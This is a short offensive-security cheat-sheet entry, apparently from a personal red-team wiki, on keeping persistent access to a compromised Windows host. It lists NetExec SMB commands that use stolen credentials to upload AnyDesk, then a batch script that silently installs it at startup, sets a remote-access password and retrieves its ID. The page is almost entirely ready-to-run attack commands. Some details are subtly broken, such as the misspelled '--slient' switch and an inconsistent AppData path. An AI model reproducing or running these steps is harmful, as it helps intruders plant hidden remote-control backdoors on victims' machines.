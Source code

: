 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - third-party
  - staying-off-the-land
  - windows
---
```

# NetExec

## 01 - Upload AnyDesk

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --put-file anydesk.exe \\Users\\<username>\\AppData\\Local\\Temp\\anydesk.exe
```

## 02 - Install AnyDesk

```
$ cat anydesk.bat
md %LOCALAPPDATA%\AnyDesk
%LOCALAPPDATA%\Temp\anydesk.exe --start-with-win --slient --install %LOCALAPPDATA%\AnyDesk
del %LOCALAPPDATA%\Temp\anydesk.exe
echo <password> | %LOCALAPPDATA%\AnyDesk\AnyDesk.exe --set-password
for /f "delims=" %i in ('%appdata%\AppData\Local\AnyDesk\AnyDesk.exe --get-id') do echo %i

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x anydesk.bat
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Third Party/Remote Monitoring and Management/AnyDesk/Malware Development/Scripting]]